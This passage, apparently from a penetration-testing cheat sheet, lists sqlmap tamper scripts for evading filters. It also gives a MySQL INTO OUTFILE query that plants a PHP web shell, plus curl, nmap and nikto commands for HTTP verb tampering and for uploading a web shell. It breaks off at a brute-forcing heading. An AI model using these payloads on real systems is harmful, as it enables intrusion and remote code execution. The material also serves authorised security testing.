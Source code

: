       Replaces plus operator (`+`) with (MsSQL) function `CONCAT()` counterpart
    - `randomcase`  
      Replaces each keyword character with random case value (e.g. `SELECT` -> `SEleCt`)
    - `space2comment`  
      Replaces space character with comments `/
    - `space2dash`  
      Replaces space character with a dash comment (`--`) followed by a random string and a new line (`\n`)
    - `space2hash`  
      Replaces (MySQL) instances of space character with a pound character (`#`) followed by a random string and a new line (`\n`)
    - `space2mssqlblank`  
      Replaces (MsSQL) instances of space character with a random blank character from a valid set of alternate characters
    - `space2plus`  
      Replaces space character with plus (`+`)
    - `space2randomblank`  
      Replaces space character with a random blank character from a valid set of alternate characters
    - `symboliclogical`  
      Replaces `AND` and `OR` logical operators with their symbolic counterparts (`&&` and `||`)
    - `versionedkeywords`  
      Encloses each non-function keyword with (MySQL) versioned comment
    - `versionedmorekeywords`  
      Encloses each keyword with (MySQL) versioned comment  

**NoSQLi**
 
 - `NoSQLMap` (... then follow the assistant)
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection 

#### MySQL access to remote code execution (RCE)

 - `SELECT '<?php echo system($_GET["c"]) ?>' INTO OUTFILE '/var/www/html/upload/shell.php' FROM mysql.user LIMIT 1`


## HTTP method/verb tampering

... Changing the HTTP methods (`GET`, `POST`, `PUT`, ...) to provoke different behaviour of the application.

 - `curl -v -X GET 1.2.3.4`
 - `curl -v -X HEAD 1.2.3.4`
 - `curl -v -X POST 1.2.3.4`
 - `curl -v -X POST --data "param1=value1&param2=value2" 1.2.3.4`
 - `curl https://pentest-experts.com/upload/ --upload-file webshell.php`
 - `nmap -p 80 --script http-method-tamper --script-args 'http-method-tamper.paths={/upload/,/protected/index.php}' 1.2.3.4`
  - Enumerarte allowed methods using nikto  
   `nikto -h "https://pentest-experts.com/search.php?q=xxx"`
 - Try using a not allowed method on purpose to provoke a error message


## HTTP login bruteforcing

